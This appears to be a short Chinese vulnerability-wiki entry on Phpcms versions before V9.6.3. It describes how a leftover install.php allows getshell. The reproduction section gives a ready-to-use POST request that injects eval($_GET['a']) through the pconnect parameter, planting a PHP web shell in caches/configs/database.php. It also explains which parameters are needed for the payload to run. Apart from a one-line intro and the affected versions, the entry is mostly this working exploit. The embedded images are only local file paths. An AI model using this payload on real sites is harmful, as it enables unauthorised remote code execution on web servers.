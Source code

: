 Phpcms V9.6.3 install.php 没有即使删除导致的getshell
====================================================

一、漏洞简介
------------

比较鸡肋，需要在环境安装好了之后，install.php也没有被删除，才可以利用

二、漏洞影响
------------

Phpcms \< V9.6.3

三、复现过程
------------

    POST /install/install.php?step=installmodule
    module=admin&dbport=3306&pconnect=eval($_GET["a"])

> 这里控制的是
> pconnect参数，因为默认它没有单引号比较好调试。注意这里如果不传dbport参数的话database.php里的port参数会置空，将会报错。就无法执行到后面的
> eval了

![1.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId24.png)

被修改后的database.php：

![2.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId25.png)

url：`/caches/configs/database.php`

![3.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId26.png)
